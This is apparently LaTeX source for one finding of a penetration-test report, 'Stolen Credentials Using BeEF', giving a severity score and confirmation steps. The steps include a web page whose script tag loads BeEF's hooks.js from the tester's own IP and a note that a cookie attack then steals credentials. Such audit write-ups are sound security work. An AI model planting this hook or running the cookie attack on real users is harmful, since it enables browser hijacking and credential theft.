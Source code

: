 \documentclass[notitlepage]{article}
\begin{document}
	
	\subsection{12. Finding: \emph{Stolen Credentials Using BeEF}}
	
	\subsubsection{Severity Rating}
	\indent The severity is 7.6. The credentials can only be stolen with the participation of a victim. The stealing of credentials could allow a great deal of access depending on the users permissions. 
	
	\textbackslash cvss(N,L,N,R,U,H,L,L,7.6)\\
	\cvss(N,L,N,R,U,H,L,L,7.6) \\
	
	\subsubsection{Vulnerability Description}
	\indent The vulnerability gives attack user credentials for your system.  
	
	\subsubsection{Confirmation method}
	To confirm the exploit use: \\
	. Start up web server, \textbf{apache2} in our case. \textbf{sudo service apache2.}  \\
	. If on linux, create web file, in our case \textbf{collections.html} in \textbf{w/var/www/html/coins/} directory. \\  
	. Paste the following code into the file: \\
	\indent \indent \textless!DOCTYPE html\textgreater \\
	\indent \indent \indent \textless html\textgreater \\
	\indent \indent \indent \indent \textless body \textgreater \\
	\indent\indent\indent\indent\indent \textless script type="text/javascript" src="\textbf{YOUR IP ADDRESS}:3000/hooks.js" \textgreater \textless /script \textgreater \\
	\indent\indent\indent\indent \textless /body\textgreater\\
	\indent\indent\indent \textless /html\textgreater \\
	. Restart \textbf{apache2} server. \textbf{sudo service apache2 restart}. \\
	. Install \textbf{BeEF} per their instructions.\\ \href{https://github.com/beefproject/beef/wiki/Configuration}{BeET Github}.\\
	. Start \textbf{BeEF} per their instructions.\\
	. Open browser and enter 'http://\textbf{YOUR IP ADDRESS} and press enter. \\
	. You should see your IP address in the BeEF software and can run a cookie attack to steal credentials.  \\
	
\end{document}
